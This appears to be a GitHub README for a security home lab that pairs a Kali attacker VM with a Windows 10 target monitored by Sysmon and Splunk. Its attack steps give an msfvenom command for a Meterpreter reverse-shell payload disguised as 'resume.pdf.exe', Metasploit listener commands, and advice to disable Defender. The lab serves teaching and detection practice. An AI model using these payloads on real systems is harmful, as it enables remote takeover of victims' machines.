


# 👨‍💻SOC Home Lab: Attack & Defense Simulation 🚀

---
## Table of Contents

1. [Introduction](#introduction)
2. [Prerequisites](#prerequisites)
3. [Network Topology](#network-topology)
4. [Step 1: Setting Up Virtual Machines](#step-1-setting-up-virtual-machines)
    * [1.1 Install Kali Linux (Attacker Machine)](#11-install-kali-linux-attacker-machine)
    * [1.2 Install Windows 10 (Target Machine)](#12-install-windows-10-target-machine)
    * [1.3 Configure Network Adapters](#13-configure-network-adapters)
5.  [Step 2: Installing Splunk for Log Monitoring](#step-2-installing-splunk-for-log-monitoring)
6.  [Step 3: Installing Sysmon on Windows 10](#step-3-installing-sysmon-on-windows-10)
7.  [Step 4: Generating Malware with msfvenom](#step-4-generating-malware-with-msfvenom)
8.  [Step 5: Setting Up a Metasploit Listener](#step-5-setting-up-a-metasploit-listener)
9.  [Step 6: Monitoring Logs with Splunk](#step-6-monitoring-logs-with-splunk)
10. [Troubleshooting](#troubleshooting)
11. [Next Steps & Future Improvements](#next-steps--future-improvements)
12. [Conclusion](#conclusion)

---
## 📌Introduction
This project demonstrates the setup of a home lab environment for cybersecurity testing, including an attack machine (Kali Linux), a target machine (Windows 10 VM), and a logging system (Splunk) to monitor malicious activities. The project involves:

- Setting up isolated virtual machines.

- Installing and configuring Sysmon for comprehensive log collection.

- Generating and deploying malware using msfvenom.

- Monitoring attacks using Splunk for analysis and detection.

Note: This lab is for educational purposes only. All activities should be conducted in a strictly isolated environment to prevent any unauthorized access or damage to your personal network or data. Do not use these techniques for unauthorized activities.

---
## 🔧Prerequisites

| Requirement           | Description                                                                 |
| :-------------------- | :-------------------------------------------------------------------------- |
| RAM                   | At least 16GB (to comfortably run multiple VMs simultaneously).             |
| Virtualization Software | VMware Workstation (Pro/Player) or VirtualBox. Ensure you are familiar with basic VM operations. |
| Operating Systems     | ISO files for Windows 10 (a non-N edition is generally recommended for broader compatibility) and Kali Linux. |   
| Logging Tools         | Splunk Enterprise (Free/Trial version for home lab) and Sysmon setup files, along with a pre-configured `sysmonconfig.xml`. |
| Internet Connection   | Required for downloading ISOs, tools, updates, and configuration files.     |
| Disk Space            | At least 100GB of free disk space for VM images and logs.                   |

---
## Network Topology

Below is a simple network topology illustrating the setup. For optimal lab isolation and communication, it's highly recommended to configure your Virtual Machines with **Host-Only network adapters (VMnet1)**. This ensures they can communicate with each other while being completely isolated from your main home network, which is crucial for security when experimenting with malware.


The Kali Linux machine initiates attacks against the Windows 10 VM. Logs generated by Sysmon on the Windows machine are collected by Splunk running on the Host machine via the Host-Only network for analysis and detection of malicious activities.git

---

## Step 1: Setting Up Virtual Machines

Before starting, ensure you have your chosen virtualization software (
    [VMware Workstation Pro/Player](https://www.vmware.com/products/workstation-player.html) or
    [Oracle VirtualBox](https://www.virtualbox.org/wiki/Downloads)
) installed and updated.

### 1.1 Install Kali Linux (Attacker Machine)

1.  **Download Kali Linux ISO:** Obtain the latest version from the [Kali Official Website](https://www.kali.org/downloads/).
2.  **Create a New VM:**
    * Open your virtualization software (VMware Workstation).
    * Choose to create a new virtual machine.
    * Select "Installer disc image file (ISO)" and point to your downloaded Kali Linux ISO.
    * Follow the on-screen prompts for installation. Choose a username and password.
    * **Allocate at least 4GB RAM and 2 CPU cores** to the Kali VM.
    * Set the hard disk size to at least 40GB.
    * **After initial setup and network adapter configuration (covered in 1.3):**
      
3.  **Update and Upgrade Kali:** After installation, log in and open a terminal.
    ```bash
    sudo apt update && sudo apt upgrade -y
    ```
    This ensures all packages are up-to-date.

### 1.2 Install Windows 10 (Target Machine)

1.  **Download Windows 10 ISO:** Download the Media Creation Tool from [Microsoft's website](https://www.microsoft.com/en-us/software-download/windows10ISO) to create a Windows 10 ISO.
2.  **Create a New VM:**
    * Create a new virtual machine in your virtualization software.
    * Select "Installer disc image file (ISO)" and point to your downloaded Windows 10 ISO.
    * Follow the installation wizard. You can skip entering a product key for a trial period. Choose Windows 10 Pro for this lab.
    * **Allocate at least 8GB RAM and 2-4 CPU cores** to the Windows 10 VM.
    * Set the hard disk size to at least 60GB.
    * **After initial setup and network adapter configuration (covered in 1.3):**
      
3.  **Disable Windows Defender (Temporarily for testing):** Go to `Settings` > `Update & Security` > `Windows Security` > `Virus & threat protection` > `Manage settings` and turn off "Real-time protection." This is necessary for the malware simulation to work effectively in a controlled lab. Remember to re-enable it or use an EDR/AV solution in a production environment.
4.  **Install VMware Tools / VirtualBox Guest Additions:** This will improve performance and enable features like drag-and-drop file transfer, which can be useful for deploying the payload.

---
### 1.3 Configure Network Adapters 

This is a critical step for isolating your lab and enabling communication between VMs.

For VMware Workstation:

1.  **Open VMware Workstation:** Launch the application.
    

2.  **Access Virtual Network Editor:**
    * Go to `Edit` in the top menu bar.
    * Select `Virtual Network Editor...`
    

3.  **Allow Changes (if prompted):** Click `Change Settings` if necessary to enable modifications.

4.  **Locate and Configure VMnet1 (Host-only):**
    * In the Virtual Network Editor window, select `VMnet1`.
    * Ensure "Host-only (Connect VMs to this private network)" is selected.
   * **Crucially, CHECK** "Use local DHCP service to distribute IP addresses to VMs".
    * Confirm the **Subnet IP** is `172.16.0.0` and **Subnet mask** is `255.255.255.0`.
    * **Important:** Note that your Host machine's IP on this VMnet1 adapter will typically be `172.16.0.1`. This is where your VMs will send logs if Splunk is on the Host.
    * Click `Apply` and `OK`.
    

5.  **Assign Network Adapter to VMs:**
    * For **Kali Linux VM** and **Windows 10 VM** (ensure VMs are powered off first):
        * Right-click on the VM in the VMware Workstation library and go to `Settings...`
        * Select `Network Adapter`.
        * Choose **Custom: VMnet1 (Host-only)**.
        * Click `OK`.

---

## Step 2: Installing Splunk for Log Monitoring 

We will install Splunk Enterprise (trial version) directly on your **Windows 10 VM** for simplicity in local log collection.

**Note:** Since your VM has no internet access, you must first download the Splunk installer on your host machine and transfer it to the VM (e.g., via shared folders/or change network setting Host only to NATor bridge network).

1.  **Download Splunk Enterprise (on Host, then transfer to VM):**
    * Download the Windows MSI installer from the [Splunk Website](https://www.splunk.com/en_us/download/splunk-enterprise.html) on your **host machine**.
    * Transfer the installer file to your Windows 10 VM (e.g., to `C:\Users\YourUser\Downloads`).
    * **Reference Video: ▶️ [How To Install Splunk Enterprise on Windows 10/11 VM](https://www.youtube.com/watch?v=cQhmoC29YD0&vl=ja)**

2.  **Install Splunk on your Windows 10 VM:**
    * Inside your Windows 10 VM, locate the transferred MSI installer.
    * Run it **as Administrator**.
    * Follow the installation wizard (typically "Typical" installation, create admin username and password).
    * Splunk Web should launch automatically in your VM's browser.

---

### Step 2.1: Monitoring Logs with Splunk (Splunk Universal Forwarder)

*(This section primarily covers installing the Forwarder on another machine if you want to send its logs to your Splunk Enterprise on the Windows 10 VM.)*

1.  **Download and Install Splunk Universal Forwarder (on relevant source machine, e.g., another VM or your Host):**
    * Download the Universal Forwarder installer (e.g., Windows 64-bit MSI) from the [Splunk Website](https://www.splunk.com/en_us/download/universal-forwarder.html) on your host.
    
    * Run the installer as Administrator. During installation, specify the Receiving Indexer as the IP of your Windows 10 VM (where Splunk Enterprise is installed, e.g., `172.16.0.20` or its current DHCP IP) and **Port `9997`**.

    * **Reference Video: ▶️ [Splunk Universal Forwarder Installation and Configuration](https://www.youtube.com/watch?v=_2O-qxS8nqI)**

---
## Step 3: Installing Sysmon on Windows 10
1. Download Sysmon from [Microsoft Sysinternals](https://learn.microsoft.com/en-us/sysinternals/downloads/sysmon).
2. Download a pre-configured `sysmonconfig.xml` from [Sysmon Modular](https://github.com/olafhartong/sysmon-modular).
3. Open **PowerShell as Administrator** and run:
   ```powershell
   cd "C:\Users\Downloads\sysmon"
   .\sysmon64.exe -i sysmonconfig.xml
   ```
4. Verify Sysmon is running:
   ```powershell
   Get-Process sysmon64

5. * **Reference Video: ▶️ [Splunk Universal Forwarder Installation and Configuration](https://www.youtube.com/watch?v=uJ7pv6blyog)**

---
## Step 4: Generating Malware with msfvenom
On Kali Linux, generate a malicious executable:
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<Attacker_IP> LPORT=4444 -f exe -o resume.pdf.exe
```
- This creates `resume.pdf.exe`, which acts as our payload.

---
## Step 5: Setting Up a Metasploit Listener
1. Open Metasploit on Kali:
   ```bash
   msfconsole
   ```
2. Configure the listener:
   ```bash
   use exploit/multi/handler
   set payload windows/x64/meterpreter/reverse_tcp
   set LHOST <Attacker_IP>
   set LPORT 4444
   exploit
   ```
3. Deploy `resume.pdf.exe` on Windows 10 and execute it.
4. If successful, you gain a Meterpreter session:
   ```bash
   meterpreter > sysinfo
   ```

---
## Step 6: Monitoring Logs with Splunk
1. Open Splunk and search for unauthorized activity:
   ```
   index=main sourcetype=WinEventLog:Security
   ```
2. Identify anomalies related to unauthorized access.
3. Create alerts to detect suspicious behavior.

---
## 🔍Troubleshooting
### 1. Metasploit Handler Not Receiving a Session
- Ensure Windows Defender is **disabled** to prevent blocking the payload.
- Double-check **LHOST and LPORT settings** in both `msfvenom` and `msfconsole`.
- Run the payload on Windows as **Administrator**.

### 2. Splunk Not Logging Events
- Verify Sysmon is correctly installed and running.
- Ensure Windows Event Logging is enabled in Splunk.
- Restart Splunk and recheck the event index.

---
## 🎯Next Steps & Future Improvements
- Integrate **ELK Stack** for enhanced log analysis.
- Automate attack execution using **Python scripts**.
- Implement **Wazuh SIEM** for better threat detection.

---
## Conclusion
This project demonstrates how to:
- Set up a cybersecurity home lab
- Deploy and detect malware
- Use Splunk for threat monitoring

> **Note:** This is for educational purposes only. Do not use these techniques for unauthorized activities.

### 📌 Connect with Me:
<a href="https://www.linkedin.com/in/prajwal-kunte-008869313/"></a>